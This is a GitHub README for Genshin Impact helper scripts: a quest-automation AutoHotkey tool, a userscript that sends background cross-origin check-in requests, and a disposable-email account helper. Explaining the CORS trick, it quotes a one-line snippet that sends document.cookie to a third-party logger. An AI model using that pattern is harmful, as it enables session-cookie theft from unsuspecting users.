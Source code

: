 # Genshin Impact Script(s)
### License: The Unlicense (No Trademark condition)

__Retrier3__ is now available at GitHub!<br>
(Not a bot, it is Helper for questing)<br>
__retrier2.ahk__ is now available at GitHub!<br>
(Not a bot, it is Helper for questing)<br>
__genshin-checkin-redeem.js__ is now available at GitHub!<br>
(Used for auto redeem check-in reward)<br>
__quickfmg.js__ is now available at GitHub!<br>
(Used for auto generate random mail & copy it, and then copy verification code for mihoyo account)

## NOTE:
Once **Retrier3** reaches beta phase, (old) retrier2 will no longer receive updates.

## Retrier3 (alpha)
#### Less features
- Likely to be brought back at later date.
#### Supports 1920x1080 (fullscreen)
- 1440p will be supported at later date.
- No other resolutions are planned.<br>
#### Retrier3 is superior to v2
- More stable
- More code/"complex"

## retrier2.ahk SETUP, same for v3 (except maintaining)
FOR pre-made script: <br>https://www.youtube.com/watch?v=7YDn-NKuO7A<br>
How to maintain: <br>https://www.youtube.com/watch?v=q0eT1Qar_nY

NOTE:
- Don't press F2 like a madman during register/login, script will break
  - Then you need to Press Home + F2
- Script can be used at ANY QUEST
  - BUT some MAY end up being STUCK in a loop (Venti's quest is just an example)
- Script can break
  - Press Home then F2 again if it escalates during Questing

### FAQ
Q: What's center of the mouse?<br>
Q: What's center of the cursor?<br>
A: Look at [this picture (*LINK*)](https://github.com/SlowsieNT/genshin/blob/main/center-of-cursor.png)<br><br>
Q: Will the script be updated in the future?<br>
A: Yes - to keep it alive, until 2022

[TEXT] FOR pre-made script:<br>
1. Go to Settings then Graphics
2. Set Quality to: Medium
3. Set Display Mode to: 1440x900 Windowed
4. Go to Settings then Language
5. Select Subtitles to: English

## genshin-checkin-redeem.js
(requires Tampermonkey/Greasemonkey Opera/Chrome/Firefox extension)<br>
#### NOTE: Only the account that is currently logged in, I may make a script for quick multi-account in few lines(C#) in the future!<br>
Every 3h script will try to check-in<br>
__Script will trigger when you are casually watching youtube videos, or just browsing__<br>
This script will send 2 requests, one will attempt to get checkin game reward, and the other request is another checkin<br>
I have tested it on other accounts and it should be working for you as well<br>
#### ALL SERVERS
Junior Developers may freak out because they'll see error(s) in the console, in the contrary `it just works™` because request is sent, but the response cannot arrive due CORS
- This technique is very common in Hacking
  - It was being used for DoS-ing
  - Or sending `document.cookie` to the 3rd party logger website
    - Sending `document.cookie` was mostly sent via `(new Image).src="...?_="+encodeURIComponent(document.cookie)`

## quickfmg.js
(requires Tampermonkey/Greasemonkey Opera/Chrome/Firefox extension)<br>
Once you add this script and go to [fakemailgenerator.com](http://www.fakemailgenerator.com/), you would click on Logo that will have green background.<br>
Once you click on the Logo, it will copy the new generated mail automatically<br>
IMPORTANT: It will copy verification code for genshin impact account, no worries
